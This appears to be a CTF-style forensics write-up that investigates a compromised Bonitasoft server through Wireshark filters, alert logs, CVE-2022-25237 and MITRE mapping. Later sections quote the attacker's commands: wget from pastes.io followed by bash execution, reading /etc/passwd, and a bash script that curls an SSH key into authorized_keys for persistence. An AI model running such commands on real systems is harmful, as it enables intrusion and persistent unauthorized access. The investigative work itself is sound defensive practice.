 ## We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

- filter for `http` in Wireshark 
- notice URL contains **bonita**
- open JSON alerts file and search for `bonita` to find entries for **Bonitasoft** (confirm with web search if desired)

### Answer: `bonitasoft`

## We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

- filter for `http.request.method=="POST"` and notice the numeroud logins

- expand the form information to see different usernames and passwords

- looks like **credential stuffing** 

### Answer: `Credential Stuffing`

## Does the vulnerability exploited have a CVE assigned - and if so, which one?

- If you searched the JSON alerts file for Bonitasoft you likely already saw a CVE number such as this line (and others): 

```
ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"
```

- One can also do a web search for "Bonitasoft credential stuffing" (or similar) and/or the above CVE number and check the results e.g. NVD page

### Answer: `CVE-2022-25237`

## Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

<p>The NVD description (https://nvd.nist.gov/vuln/detail/CVE-2022-25237) will have this information and we can verify
in the PCAP file</p>

Filter: 

```
http.request.method=="POST" && http.request.uri contains "i18ntranslation"
```

### Answer: `i18ntranslation`

## How many combinations of usernames and passwords were used in the credential stuffing attack?

- Let's look at all the form submissions

Filter:
```
http.content_type == "application/x-www-form-urlencoded"
```

- Taking a closer look at a few results one can see that each one is followed by another showing **install:install**, so let's remove those

Filter:

```
http.content_type == "application/x-www-form-urlencoded" && urlencoded-form.value != "install"
```

- This leaves 59 packets but if looking at the last three one can see the same credentials (**seb.broom@forela.co.uk:g0vernm3nt
**) indicating a change
- checking the response comfirms that this credential was successful with a 204 response rather than 401

- There are 4 packets in the filtered output associated with the successful request meaning that 56 unique username:password attempts were made

### Answer: `56`

## Which username and password combination was successful?

- As discovered above `seb.broom@forela.co.uk:g0vernm3nt` was the successful username:password pair

### Answer: `seb.broom@forela.co.uk:g0vernm3nt`

## If any, which text sharing site did the attacker utilise?

After successful authentication the attacket makes a POST request to upload **"rce_api_extension.zip"** then follows up with a few GET requests including **cmd=whoami**, **"cmd=cat%20/etc/passwd"** and ***"cmd=wget%20https://pastes.io/raw/bx5gcr0et8"*** then subsequently executes this file with **"cmd=bash%20bx5gcr0et8"**

### Answer: `pastes.io`

## Please provide the filename of the public key used by the attacker to gain persistence on our host.

Following the link that the wget command used leads to a page with a simple bash script containing a curl command to append an SSH key to authorized_keys and restart the SSH service

```    
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

### Answer: `hffgra4unv`

## Can you confirmed the file modified by the attacker to gain persistence?

As seen above, the modified file is the **authorized_keys** file which has a new key appended to it

### Answer: `/home/ubuntu/.ssh/authorized_keys`

## Can you confirm the MITRE technique ID of this type of persistence mechanism?

Using the ATT&CK Navigator and creating a new layer with the Enterprise matrix (https://mitre-attack.github.io/attack-navigator/) a simple search on **SSH** quickly reveals a result **"Account Manipulation : SSH Authorized Keys"**. Clicking view opens the description (https://attack.mitre.org/techniques/T1098/004/) which includes the ID 

### Answer: `T1098.004`